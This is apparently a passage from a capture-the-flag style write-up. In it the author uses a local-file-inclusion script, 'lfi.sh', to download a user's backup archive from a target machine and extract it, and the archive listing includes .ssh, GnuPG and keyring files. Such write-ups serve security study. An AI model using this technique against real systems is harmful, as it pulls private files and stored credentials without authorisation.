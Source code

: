 Let's get this file and gunzip it (note, I added `--output -` to my lfi.sh script above to capture raw binary):

```bash
$./lfi.sh /home/bean/Documents/backup/bean_backup_final.tar.gz > bean_backup_final.tar.gz
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 31716  100 31716    0     0   339k      0 --:--:-- --:--:-- --:--:--  344k

$tar xzvf bean_backup_final.tar.gz 

gzip: stdin: unexpected end of file
./
./bean_backup.tar.gz
./time.txt
tar: Child returned status 1
tar: Error is not recoverable: exiting now

$tar xzvf bean_backup.tar.gz 
./
./Templates/
./.ssh/
./Pictures/
./.config/
./.config/xpad/
./.config/xpad/info-GQ1ZS1
./.config/xpad/default-style
./.config/xpad/content-DS1ZS1
./.config/gnome-initial-setup-done
./.config/goa-1.0/
./.config/update-notifier/
./.config/dconf/
./.config/dconf/user
./.config/autostart/
./.config/autostart/xpad.desktop
./.config/.gsd-keyboard.settings-ported
./.config/ibus/
./.config/ibus/bus/
./.config/ibus/bus/ee6a821b27764b4d9e547b4690827539-unix-wayland-0
./.config/ibus/bus/ee6a821b27764b4d9e547b4690827539-unix-0
./.config/gtk-3.0/
./.config/gtk-3.0/bookmarks
./.config/pulse/
./.config/pulse/cookie
./.config/pulse/ee6a821b27764b4d9e547b4690827539-default-source
./.config/pulse/ee6a821b27764b4d9e547b4690827539-stream-volumes.tdb
./.config/pulse/ee6a821b27764b4d9e547b4690827539-card-database.tdb
./.config/pulse/ee6a821b27764b4d9e547b4690827539-device-volumes.tdb
./.config/pulse/ee6a821b27764b4d9e547b4690827539-default-sink
./.config/nautilus/
./.config/evolution/
./.config/evolution/sources/
./.config/evolution/sources/system-proxy.source
./.config/user-dirs.dirs
./.config/user-dirs.locale
./Videos/
./.gnupg/
./.gnupg/pubring.kbx
./.gnupg/trustdb.gpg
./.local/
./.local/share/
./.local/share/keyrings/
./.local/share/keyrings/login.keyring
./.local/share/keyrings/user.keystore
```